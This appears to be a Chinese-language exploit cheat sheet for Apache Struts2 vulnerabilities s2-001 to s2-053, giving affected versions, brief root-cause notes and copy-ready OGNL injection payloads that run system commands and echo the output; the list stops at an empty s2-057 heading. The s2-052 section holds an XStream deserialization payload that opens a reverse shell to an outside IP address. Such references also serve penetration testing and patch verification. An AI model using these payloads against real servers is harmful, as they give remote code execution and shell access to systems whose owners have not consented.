包含 s2-001 / s2-003 / s2-005 / s2-007 / s2-008 / s2-009 / s2-012 / s2-013 / s2-014 / s2-015 / s2-016 / s2-045 / s2-046 / s2-048 / s2-052 / s2-053 / s2-057

<!--more-->

## s2-001

[参考](https://xz.aliyun.com/t/2672)

影响版本：2.0.0 - 2.0.8

用户提交表单失败时，提交的数据会被作为 OGNL 表达式执行，造成代码执行。

获取 tomcat 路径：

```java
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取网站路径：

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行命令：

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```



## s2-003 | s2-005

[参考](https://meizjm3i.github.io/2019/02/01/Struts2%E6%BC%8F%E6%B4%9E%E8%B0%83%E8%AF%95%E7%AC%94%E8%AE%B0-S2-003%E3%80%81S2-005/)

影响版本：2.0.0 - 2.1.8.1

请求的 GET 参数会通过 OGNL 表达式被解析为 Java 语句。在 s2-003 中可以使用 `\u0023` 来绕过对 `#` 的过滤，而在修复中开启的安全配置可以被 OGNL 表达式关闭，然后再利用 s2-003 的 payload 攻击。这就是 s2-005。

网上大部分 PoC 都是无回显的，这里放一个带回显的 PoC：

```java
/example/HelloWorld.action?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(bla)(bla)&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&('\u0023mycmd\u003d\'id\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
```



## s2-007

[参考](https://xz.aliyun.com/t/2684)

影响版本：2.0.0 - 2.2.3

配置验证规则后，类型转换出错时进行了错误的字符串拼接，从而可以执行 OGNL 表达式。这里的原理和 SQL 注入类似。

```
'+ (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```



## s2-008

[参考](https://blog.csdn.net/god_zzZ/article/details/94398559)

影响版本：2.1.0 - 2.3.1

比较鸡肋的漏洞，开启 devMode 后（默认关闭）直接利用调试接口执行 OGNL 表达式。

```java
debug=command&expression=(%23_memberAccess.allowStaticMethodAccess=true,%23context["xwork.MethodAccessor.denyMethodExecution"]=false,%23cmd="id",%23ret=@java.lang.Runtime@getRuntime().exec(%23cmd),%23data=new+java.io.DataInputStream(%23ret.getInputStream()),%23res=new+byte[38],%23data.readFully(%23res),%23echo=new+java.lang.String(%23res),%23out=@org.apache.struts2.ServletActionContext@getResponse(),%23out.getWriter().println(%23echo))
```

这里需要注意，PoC 中 `#res=new byte[n]` 的 `n` **不能超过命令执行结果的长度**，否则就会直接回显 `null`。上面是根据 `id` 结果的长度粗略选取的数字 `38` 。

## s2-009

[参考](https://www.jianshu.com/p/68bf5ca2d61f)

影响版本：2.1.0 - 2.3.1.1

在 s2-005 的修复中过滤了 `\` 等特殊字符，然而对于接受某个参数 `example` 的接口来说，`example` 参数的值依然会被当作 OGNL 表达式执行。然后就可以通过类似 `example=<OGNL statement>&(example)('bla')=1` 来绕过过滤。

```java
age=4923&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27id%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23writer.println(%23d),%23writer.close())(bla)&z[(name)(%27bla%27)]
```

## s2-012

[参考](https://www.jianshu.com/p/cde51192616e)

影响版本：2.1.0 - 2.3.13

在 action 配置中的 `result` 中使用 `redirect` 类型时，如果使用了变量，如 `${param}`，那么在重定向时会对 `param` 进行 OGNL 表达式解析。

可以直接使用 s2-001 的 PoC。

## s2-013 | s2-014

[参考](https://xz.aliyun.com/t/2694)

影响版本：2.0.0 - 2.3.14.1

struts2 的 `<s:a>` 和 `<s:url>` 都有一个 `includeParams` 属性，可以设置为：

1. `none` - URL 中不包含任何参数（默认）
2. `get` - 仅包含 URL 中的 GET 参数
3. `all` - 在 URL 中包含 GET 和 POST 参数，此时 GET 和 POST 参数都在 query string 中

最后一种情况下解析参数时，会导致 OGNL 表达式执行，造成代码执行。

存在两种 PoC：

```java
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}
```

```java
${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

s2-013 的修复仅仅限制了 `${(#exp)}` 格式的 PoC 执行，然而 `${exp}` 格式同样可以执行。这导致了 s2-014 的产生。

> 上面的 `$` 都可以换成 `%`。

## s2-015

[参考](https://www.jianshu.com/p/14a0fa48fed0)

影响版本：2.0.0 - 2.3.14.2

在 action 中配置了 `name="*"` ，且 `result` 中含有变量时，如 `{1}.jsp` ，那么 `{}` 中的内容会被当作 OGNL 表达式解析。遗憾的是这种情况下无法使用 `"`,`/`,`\` 等特殊字符。

此外，2.3.14.2 版本开始无法使用过去常用的 `#_memberAccess['allowStaticMethodAccess']=true` 来开启静态方法调用，此时可以通过反射机制来开启。

```java
%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}.action
```





## s2-016

[参考](https://xz.aliyun.com/t/4603)

影响版本：2.0.0 - 2.3.15

处理重定向前缀 `action:` / `redirect:` / `redirectAction:` 时对后面的 URL 进行 OGNL 解析，导致任意代码执行。

```java
index.action?redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
```

## s2-045

[参考](https://paper.seebug.org/247/)

影响版本：2.3.5 - 2.3.31, 2.5 - 2.5.10

发上传数据包时，修改 `Content-Type` 头使得解析异常，从而导致报错信息被当作 OGNL 表达式执行。

实际上，并不需要使用 POST 方法，也不需要网站存在上传文件功能，只需要 `Content-Type` 中包含 `multipart/form-data` 即可。如：

```java
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('result',3048+9572)}.multipart/form-data
```



```java
Content-Type: %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c','ipconfig'}:{'/bin/bash','-c','id'})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.multipart/form-data
```



## s2-046

[参考](https://xz.aliyun.com/t/221)

影响版本：2.3.5 - 2.3.31, 2.5 - 2.5.10

类似 s2-045，这次修改的是 `Content-Disposition` 的 `filename` 字段。最后需要通过 `\x00b` 来截断 payload。

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c','ipconfig'}:{'/bin/bash','-c','id'})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\x00b
```

注意上面 `\x00` 处在 burp 里需要通过 Hex 界面修改为 `00` 字节，因此网上 PoC 大多使用 python 脚本编写而不是 burp 重放。



## s2-048

[参考](https://www.freebuf.com/vuls/140410.html)

影响版本：2.0.0 - 2.3.32

struts1 插件中将用户输入的 message 作为 OGNL 表达式执行，导致任意代码执行。这里可以直接使用 s2-045 的 PoC。

## s2-052

[参考](https://developer.aliyun.com/article/197926)

影响版本：2.1.2 - 2.3.33, 2.5 - 2.5.12

REST 插件用 XStream 处理 application/xml 的数据包，在反序列化 XML 时可以导致代码执行。

暂时没有发现带回显的 PoC，可以反弹 shell 来验证：

```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>bash</string>
                        <string>-c</string>
                        <string>bash -i >& /dev/tcp/174.2.198.151/8080 0>&1</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```





## s2-053

[参考](https://www.freebuf.com/vuls/147735.html)

影响版本：2.0.1 - 2.3.33， 2.5 - 2.5.10

使用 Freemarker 模板引擎时，如果存在这样的代码：

```html
<@s.hidden name="redirectUri"value=redirectUri />
```

或者：

```html
<@s.hidden name="redirectUri"value="${redirectUri}"/>
```

那么此时，用户输入会先被 Freemarker 解析，随后被当作 OGNL 表达式解析，造成代码执行。

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c','ipconfig'}:{'/bin/bash','-c','id'})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

注意最后必须添加换行符（`\x0a`）。



## s2-057

